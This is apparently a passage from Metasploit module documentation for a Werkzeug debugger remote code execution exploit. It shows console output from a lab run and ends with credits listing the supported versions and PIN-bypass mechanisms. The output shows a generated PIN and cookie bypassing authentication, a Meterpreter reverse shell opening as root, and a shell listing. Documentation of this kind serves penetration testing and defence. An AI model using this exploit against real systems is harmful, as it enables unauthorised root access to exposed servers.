     [*] Started reverse TCP handler on 192.168.23.117:4444
    [*] Running automatic check ("set AutoCheck false" to disable)
    [*] Debugger allows code execution
    [!] Debugger requires authentication
    [!] The service is running, but could not be validated.
    [*] Generated authentication PIN: 105-774-671
    [*] Generated authentication cookie: __wzdb0f3242143622dccd6f0=9999999999|3037ec0e9248
    [*] Sending stage (24772 bytes) to 192.168.23.5
    [*] Meterpreter session 1 opened (192.168.23.117:4444 -> 192.168.23.5:62474) at 2024-10-06 19:34:20 +0100

    meterpreter > getpid
    Current pid: 38
    meterpreter > getuid
    Server username: root
    meterpreter > sysinfo
    Computer        : 3eb759665d5f
    OS              : Linux 6.6.51-0-virt #1-Alpine SMP PREEMPT_DYNAMIC 2024-09-12 12:56:22
    Architecture    : aarch64
    System Language : C
    Meterpreter     : python/linux
    meterpreter > shell
    Process 41 created.
    Channel 1 created.

    ls
    app.py
    bin
    boot
    dev
    etc
    home
    lib
    media
    mnt
    opt
    proc
    report.txt
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    exit

## Credits
    
- 2015 - h00die (mike[at]shorebreaksecurity.com)
  - Initial module targetting versions 0.10 and older of Werkzeug that do not require authentication.
- 2024 - Graeme Robinson (metasploit[at]grobinson.me/@GraSec)
  - Support up to and including version 3.0.3 of Werkzeug via 3 different authentication mechanisms:
  - Generated Cookie (bypasses PIN-lock)
  - Known-Cookie (bypasses PIN-lock)
  - Known-PIN
